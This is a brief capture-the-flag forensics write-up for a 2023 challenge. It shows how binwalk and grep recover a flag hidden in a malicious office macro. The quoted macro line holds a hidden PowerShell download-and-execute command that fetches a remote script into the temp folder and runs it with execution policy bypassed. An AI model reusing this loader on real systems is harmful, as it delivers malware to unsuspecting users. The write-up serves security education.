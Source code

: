 
### Bing Chilling

![Bing_Chilling](https://github.com/Hed6eH0g/ctf/blob/main/2023/byuctf/forencics/bing_chilling/figs/bing_chilling_0.png)

We can extract the contains of the attached file with `binwalk -e {filename}` and `grep -r {target_text} ./` allows us to find a text that includes `{target_text}` in the subdirectories recursively.
Fortunately, this approach with `byu` found the following text in `./Basic/Project/NewMacros.xml`.
```
./Basic/Project/NewMacros.xml:    FGHNBVRGHJJGFDSDUUUU = &quot;cmd /K &quot; + &quot;byu&quot; + &quot;ctf&quot; + &quot;{&quot; + &quot;m@ldocs @re&quot; + &quot;sn@eky and bad}&quot; + &quot;e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object      System.Net.WebClient).DownloadFile(&apos;http://bsrc.baidu.com/drill/doc-zh.html&apos;,&apos;%TEMP%\Y.ps1&apos;);      poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile      -file %TEMP%\Y.ps1&quot; 
```
Thus, we can get the flag by joining the corresponding text or a brief look at the corresponding file via the macro editor.
